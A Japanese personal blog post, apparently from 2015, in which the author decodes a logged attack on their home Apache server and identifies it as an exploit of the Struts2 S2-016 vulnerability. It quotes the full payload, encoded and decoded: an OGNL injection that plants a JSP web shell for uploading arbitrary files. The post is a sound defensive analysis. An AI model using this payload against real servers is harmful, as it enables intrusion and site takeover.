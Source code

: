 ```yaml
---
title: apacheのaccess_logにjavaのソースコードみたいなアクセスが記録されていた。(Struts2の脆弱性S2-016への攻撃)
pubtime: 2015-07-01T16:04+0900
amp: hybrid
tags: [Apache, access_log, Java, Struts2]
description: 自宅サーバで動かしているApacheに対してStruts2の脆弱性「S2-016」を悪用しようとする攻撃が来ていたので、その内容を調べてみました。
---
```


さっきの[apache killerの話](/blog/2015/07/python-make-apache-killer)を書いたあとでapacheのアクセスログを見ていたら、こんなアクセスが。
```
xx.xx.xx.xx [01/Jul/2015:03:09:11 +0900] "GET /index.php?redirect:$%%7b%%2523req%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%%2523res%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%2523res.getWriter().println(%%2522okokok%%2522),%%2523res.getWriter().flush(),%%2523res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%%2523req.getRealPath(%%2522/%%2522)%%252b%%2522lndex.jsp%%2522)).append(%%2523req.getParameter(%%2522shell%%2522)).close()%%7d&shell=%%253C%%2525if(request.getParameter(%%2522f%%2522)!%%253Dnull)(new%%2520java.io.FileOutputStream(application.getRealPath(%%2522%%252F%%2522)%%252Brequest.getParameter(%%2522f%%2522))).write(request.getParameter(%%2522t%%2522).getBytes())%%253B%%2525%%253E%%253Ca%%2520href%%253D%%2522One_OK%%2522%%253E%%253C%%252Fa%%253E HTTP/1.1" 404 2583 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1"
```
なんじゃこりゃ。むっちゃ長い。

どうもプログラムのコードをそのまんま突っ込んであるようなので、バラしてみました。
```
redirect:
    ${
        #req = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
        #res = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
        #res.getWriter().println("okokok"),
        #res.getWriter().flush(),
        #res.getWriter().close(),
        new java.io.BufferedWriter(
            new java.io.FileWriter(
                #req.getRealPath("/") + "lndex.jsp"
            )
        ).append(#req.getParameter("shell")).close()
    }
    &shell = <%%
        if(request.getParameter("f") != null)
            (
                new java.io.FileOutputStream(application.getRealPath("/") + request.getParameter("f"))
            ).write(request.getParameter("t").getBytes());
    %%>
    <a href="One_OK"></a>
```
こんな感じになった。
javaだよjava。javaが埋めこまれている。

調べてみると、どうやら**Sturts2**とやらが関連するようです？
Sturts2というのはjavaでwebアプリケーションを記述するためのフレームワークとのこと。Apacheが作っているらしい。
で、今回問題になるのは*S2-016*という脆弱性。[Apache Struts 2 DocumentationのS2-016のページ](http://struts.apache.org/docs/s2-016.html)を見てみると、確かに似たような雰囲気のURIのサンプルが載っている。

脆弱性の内容としては、クエリに`redirect: `から始まる何かを書いたURIでGETすると、任意のソースを実行できてしまう、というもののようです。
バラしたURIを上に書きましたが、Javaのコードをそのまんま書いて、そのまんま実行するっぽい。
うーむ、くわばらくわばら。

影響をうけるのはStrutsの2.0.0から2.3.15とのこと。
Struts2を利用しているのなら要アップデート、ですかね。

---

参考：
- [Tomcat Files Getting uploaded - Security Loophole - Stack Overflow](http://stackoverflow.com/questions/21104956/tomcat-files-getting-uploaded-security-loophole)
- [Apache Struts の脆弱性 (S2-016) に関する注意喚起](https://www.jpcert.or.jp/at/2013/at130033.html)
